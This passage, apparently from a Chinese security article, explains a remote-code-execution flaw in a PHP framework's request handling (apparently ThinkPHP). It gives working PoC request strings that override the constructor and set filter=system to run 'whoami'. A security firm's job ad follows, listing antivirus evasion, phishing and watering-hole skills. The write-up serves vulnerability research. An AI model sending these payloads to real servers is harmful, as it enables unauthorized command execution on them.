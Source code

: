 如果要继续进入 input 函数，并且 $this->param 变量可控，就要在 param 最后一行代码处, 控制 $this->param，而 $this->param 是在 652 行，构造的所以可以通过变量覆盖来覆盖 $param,$get,$route 这三个变量

![图片](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JX3DXXea1WpyuJkXwAq0YRp9OYz1fCJpqdFMyVCMibpUHrQX1gVbPCzTr4iaCFwKV7GzffSMhBpjYLg/640?wx_fmt=png)

所以 poc 就可以改为  
_method=__construct&method=get&filter=system&get[]=whoami  
_method=__construct&method=get&filter=system&param[]=whoami  
_method=__construct&method=get&filter=system&route[]=whoami  
但是由于 param 在 route 函数里被重写了所以此处 param 不能复写

![图片](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JX3DXXea1WpyuJkXwAq0YRpcY5GUkjqnXzsbl4iam3rlicJApeCAxMuoLPOrwcm9ezvBhE7Sue1xmMQ/640?wx_fmt=png)

所以最终的 poc 就为  
_method=__construct&method=get&filter=system&get[]=whoami  
_method=__construct&method=get&filter=system&route[]=whoami

**RECRUITMENT**

**招聘启事**

公司：安恒信息  
岗位：**高级攻防专家**  
部门：**西安运营中心**  
薪资：20-30K  
工作年限：3 年 +  
工作地点：西安  
【岗位职责】  
1. 定期面向部门、全公司技术分享;  
2. 前沿攻防技术研究、跟踪国内外安全领域的安全动态、漏洞披露并落地沉淀；  
3. 负责完成部门渗透测试、红蓝对抗业务;  
4. 负责相关自动化平台建设  
5. 负责研究 APT 组织攻击手法及技术原理分析  
【岗位要求】  
1. 至少 3 年安全领域工作经验；  
2. 精通 Web 渗透相关技能，能够独自进行打点，渗透等工作  
3. 拥有大型产品、CMS、厂商漏洞挖掘案例  
4. 熟练掌握 PHP、Java、C#、C++、汇编等编程语言 (Web 及二进制均需要熟悉至少一门)  
5. 能够独自分析漏洞，基于 PoC 编写 EXP  
6. 能够独自进行样本分析，汲取相关技术点并进行样本深加工  
7. 熟悉常见杀软防护点，对样本进行处理达到免杀  
8. 熟悉常见的信息搜集及钓鱼手法，能够进行水坑攻击并维持目标权限

**安恒雷神众测 SRC 运营（实习生）**  
————————  
【职责描述】  
1.  负责 SRC 的微博、微信公众号等线上新媒体的运营工作，保持用户活跃度，提高站点访问量；  
2.  负责白帽子提交漏洞的漏洞审核、Rank 评级、漏洞修复处理等相关沟通工作，促进审核人员与白帽子之间友好协作沟通；  
3.  参与策划、组织和落实针对白帽子的线下活动，如沙龙、发布会、技术交流论坛等；  
4.  积极参与雷神众测的品牌推广工作，协助技术人员输出优质的技术文章；  
5.  积极参与公司媒体、行业内相关媒体及其他市场资源的工作沟通工作。  
【任职要求】   
 1.  责任心强，性格活泼，具备良好的人际交往能力；  
 2.  对网络安全感兴趣，对行业有基本了解；  
 3.  良好的文案写作能力和活动组织协调能力。
